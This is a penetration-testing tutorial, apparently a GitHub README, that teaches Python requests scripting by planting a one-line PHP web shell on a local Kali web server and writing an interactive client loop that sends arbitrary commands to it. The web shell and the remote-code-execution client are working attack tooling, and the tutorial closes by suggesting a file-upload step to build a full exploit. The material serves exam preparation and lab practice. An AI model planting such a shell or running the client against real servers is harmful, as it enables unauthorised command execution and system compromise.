 # Interact with Web Shells Using Python
Whether you're a seasoned penetration tester or a beginner, the field of penetration testing is a mile long and a mile deep; the opportunities within all the disciplines are endless. Offensive Security offers an advanced course called Advanced Web Attacks and Exploitation (AWAE) https://www.offensive-security.com/awae-oswe/ that focuses on white box web app penetration tests. 

## Disclaimer

This repository and the data provided has been created purely for the purposes of academic research and for the development of effective security techniques and is not intended to be used to attack systems except where explicitly authorized. It is your responsibility to obey all applicable local, state and federal laws. 

Project maintainers assume no liability and are not responsible for any misuse or damage caused by the data therein.

## Objectives
Prior to registering for the course, you should ensure that you are familiar with writing scripts in at least one programming language. It is a common recommendation for you to focus on python and it's requests library. Interacting with web shells is a great way to practice both. However, once you start to get the hang of how it works, you could practice this with any language, all from your Kali Linux. Let's get our feet wet:

1. Hosting a Web Shell
2. Interface Class
3. Requests Module
4. Interacting with a Web Shell

## Hosting a Web Shell
A web shell is a web file that provides you a shell-like interface that you can use to interact with the operating system through arbitrary commands. For this example, we'll use a PHP file as it's a very simple syntax. On your Kali machine, simply create a php file on your web root with `<?php system($_GET["command"]); ?>` in the body and start up Apache.

```console
──(tristram㉿kali)-[~]
└─$ echo '<?php system($_GET["command"]); ?>' | sudo tee /var/www/html/shell.php
```

**Let's break down that PHP Code:**

* system is a built-in function that is used to execute the given command
* GET is a variable that contains form data from a get method
* command is the parameter that we'll use to pass our string with contains the command we want to have run via the system function

We can view this in action manually using our browser as such to confirm we have a working web shell:

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/browser_interaction.PNG?raw=true "browser_interaction")

## Interface Class
This piece is completely optional, but is a good habit to get into if you're new to writing scripts. Specifically, you should get into the habit of being consistent with your code so pieces are re-usable and readable. This can provide you a clean looking interface that you could re-use in various other scripts. 

Consider the following example of an interface class that we can be used to print banners and other formatted messages to the terminal:

```Python
# Simple interface class
class Interface ():
    def __init__ (self):
        self.red = '\033[91m'
        self.green = '\033[92m'
        self.white = '\033[37m'
        self.yellow = '\033[93m'
        self.bold = '\033[1m'
        self.end = '\033[0m'

    def header(self):
        print('\n    >> Remote Code Execution')
        print('    >> https://www.github.com/gh0x0st\n')

    def info (self, message):
        print(f"[{self.white}*{self.end}] {message}")

    def warning (self, message):
        print(f"[{self.yellow}!{self.end}] {message}")

    def error (self, message):
        print(f"[{self.red}x{self.end}] {message}")

    def success (self, message):
        print(f"[{self.green}✓{self.end}] {self.bold}{message}{self.end}")

# Instantiate our interface class
output = Interface()

# Output examples
output.header()
output.info('Informational Message')
output.warning('Warning Message')
output.error('Error Message')
output.success('Success Message')
```

Keep in mind when you create a class, `__init__` is executed every time you instantiate the class. Here, we'll use `__init__` to hold the values for our color codes. Then we'll define the functions or methods that will output our header and message logs when we call them from within our interface object.

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/interface_class.png?raw=true "interface_class")

## Requests Module
The requests module is a python library that allows you to make web requests, such as GET and POST requests. Within the AWAE course, you can imagine that would be extremely useful and it would be to your benefit to get comfortable with it before you start your course. It is also a very straight forward module to learn. 

With this example, all we're going to focus on are GET requests. It's relatively straight forward to invoke these requests, but play around and see what other information you could have stored in r after your initial request.

```Python
import requests
r = requests.get('http://127.0.0.1')
r.status_code
r.text
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/requests_module.png?raw=true "requests_module")

## Interacting with a Web Shell
Now that we have a web shell that we know we can interactive with manually via our browser, let's learn how to do so via the requests library. When we build a script that interacts with a web shell, we want to build in a way so we can interact it as if it was a terminal without having to run the script over and over for each command. 

To accomplish this, we'll use a `while True` loop that will constantly loop until we exit. Within this loop is where we'll use the requests library to make GET requests against the shell.php inserting our instruction into the 'command' parameter. 

You can also provide yourself a good visual indicator that you're connected with your web shell is to change the input text to something different using the `input` function. This is completely optional but gives you an opportunity to put your own style into your code.

```Python
# Remote code execution
while True:
    try:
        cmd = input("\033[91mRCE\033[0m > ")
        if cmd == 'exit':
            raise KeyboardInterrupt
        r = requests.get(target + "?command=" + cmd, verify=False)
        if r.status_code == 200:
            print(r.text)
        else:
            raise Exception
    except KeyboardInterrupt:
        sys.exit()
    except ConnectionError:
        output.error('We lost our connection to the web shell')
        sys.exit()
    except:
        output.error('Something unexpected happened')
        sys.exit()
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/rce_script.png?raw=true "rce_script")

## Putting it all together
By putting everything together, we can create ourselves a baseline script that we can use to interact with a web shell via python. Once you break down the tasks you need to accomplish into smaller bits, you'll see how easy it is to learn new aspects of a programming language that you might not be familiar with. 

If you want to take this to the next level, setup your Kali machine with a HTML form and a PHP file upload script and practice uploading files with a POST request and chain your script with what you've learned with GET requests to create a fully scripted exploit.

Be informed, be secure.
